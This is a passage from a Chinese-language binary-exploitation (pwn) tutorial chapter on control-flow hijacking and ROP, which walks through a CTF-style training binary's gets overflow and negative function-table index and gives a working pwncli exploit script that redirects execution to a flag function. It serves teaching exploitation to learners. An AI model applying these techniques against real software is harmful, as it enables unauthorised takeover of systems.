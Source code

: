 
>   ROP，即 return oriented programming（返回导向编程），关键在于劫持程序控制流后，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

## 控制流劫持

>   在二进制安全中，大部分的漏洞利用方式是劫持控制流，接着使程序按照攻击者的攻击思路运行下去。控制流劫持是一种危害性极大的攻击方式，攻击者能够通过它来获取目标机器的控制权，甚至进行提权操作，对目标机器进行全面控制。当攻击者掌握了被攻击程序的内存错误漏洞后，一般会考虑发起控制流劫持攻击。
>
>   控制流的劫持意味着攻击者劫持了 PC（program counter）寄存器，从存在漏洞的程序到控制流劫持也是 pwn 的重点，实现这一目标的方法有很多，但总是离不开跳转（包括函数返回、函数指针的调用等）。

### 例题 chp1-0-hellopwner

先来看一个简单的例子，这也是本章真正意义上的第一道 pwn 题（见[附件文件夹-chp1-0-hellopwner](../attachments/chp1-0)）：

>   读者可以尝试先不看源码，把 elf 文件拖到 ida64 中试试能不能自己找到漏洞所在。
>
>   这里给一点提示：这个程序中有不只一处漏洞，读者可以关注：`对读入的字符串处理不当导致的缓冲区溢出` 以及 `对整数处理不当导致的负数溢出`。

回到这个例子中，由于编译时采用了 `-static -no-pie` 的选项，因此地址都是固定的，这无疑给我们的利用带来了很大的便利：利用漏洞劫持控制流时，可以直接来到目标函数处，而不需要额外的手段去泄露程序地址和 libc 地址。

而主要漏洞出现在 get_a_num 函数中：

```c
__int64 get_a_num()
{
  gets(input);
  return atoi(input);
}
```

这里需要注意的一点是，gets 函数往往是造成缓冲区溢出的罪魁祸首，它在遇到字符串中的 `\x00` 等字符时并不会停下，而会一直向缓冲区中读入数据直到换行符的出现。

以及 run 函数中：

```c
// ...
int cmd;
// ...
cmd = get_a_num();
// ...
return ((__int64 (__fastcall *)(__int64, _QWORD, _QWORD))cmdtb[cmd])(buf_0, v17, v15);
```

也就是说这里 cmd 是一个 int 类型，可以为负数，这就导致了调用函数指针 `cmdtb[cmd]()` 时能调用它前面的缓冲区上，来到 .bss 段上发现 cmdtb 前面正是上面 gets 的缓冲区：

```sh
.bss:00000000004C4300                 public input
.bss:00000000004C4300 ; u32 input[64]
.bss:00000000004C4300 input           dd 40h dup(?)           ; DATA XREF: get_a_num+8↑o
.bss:00000000004C4300                                         ; get_a_num+19↑o
.bss:00000000004C4400                 public cmdtb
.bss:00000000004C4400 ; __int64 cmdtb[]
.bss:00000000004C4400 cmdtb           dq ?
```

于是很自然地可以想到，用 get_a_num 控制输入，用 cmdtb 对函数指针的调用去劫持程序控制流。

回到函数列表中，发现本道例题设计时提供了一个名为 flag1 的函数但是并没有被调用，那我们只需要按照上述思路劫持控制流到 flag1 的地址即可，exp_flag1.py 如下：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port
from pwncli import *
cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")
def cmd(data):
    ru(b'cmd> ')
    sl(data)
def call_func(data, idx, key=b""):
    cmd(data)
    ru(b'offset: ')
    sl(i2b(idx))
    if data[:2] == b"1\x00":
        ru(b'data: ')
        sl(key)

call_func(b"-31\x00".ljust(8, b"\x00") + p64(elf.symbols["flag1"]), 0)
ia()
```

读者也可以跟着 gdb 调试一下，把断点设置在 `0x401f36 <run+189>    call   r8` 的地方，就可以看到程序的 rip 寄存器确实被劫持到了 flag1 函数的地方继续执行。

>   当然这不是这道题的全部，读者也可以考虑：我们能否利用其它办法，完全获取这个程序的控制权，让它运行我们的恶意代码（shellcode）呢？

---

## ret2text

经过上面的例子，我们成功实现了控制流劫持，
